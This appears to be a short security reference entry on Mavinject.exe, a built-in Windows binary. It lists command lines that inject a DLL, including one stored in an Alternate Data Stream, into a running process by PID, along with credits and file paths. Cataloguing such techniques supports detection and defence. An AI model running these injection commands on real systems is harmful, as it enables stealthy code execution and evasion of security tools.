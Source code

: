 ## Mavinject.exe
* Functions: Execute, Read ADS
```

MavInject.exe 3110 /INJECTRUNNING c:\folder\evil.dll
Inject evil.dll into a process with PID 3110.

Mavinject.exe 4172 /INJECTRUNNING "c:\ads\file.txt:file.dll"
Inject file.dll stored as an Alternate Data Stream (ADS) into a process with PID 4172.
```
   
* Resources:   
  * https://twitter.com/gN3mes1s/status/941315826107510784
  * https://twitter.com/Hexcorn/status/776122138063409152
  * https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
   
* Full path:   
  * C:\Windows\System32\mavinject.exe
  * C:\Windows\SysWOW64\mavinject.exe
   
* Notes: Thanks to Giuseppe N3mes1s - @gN3mes1s, Adam - @hexacorn, Oddvar Moe - @oddvarmoe  
   
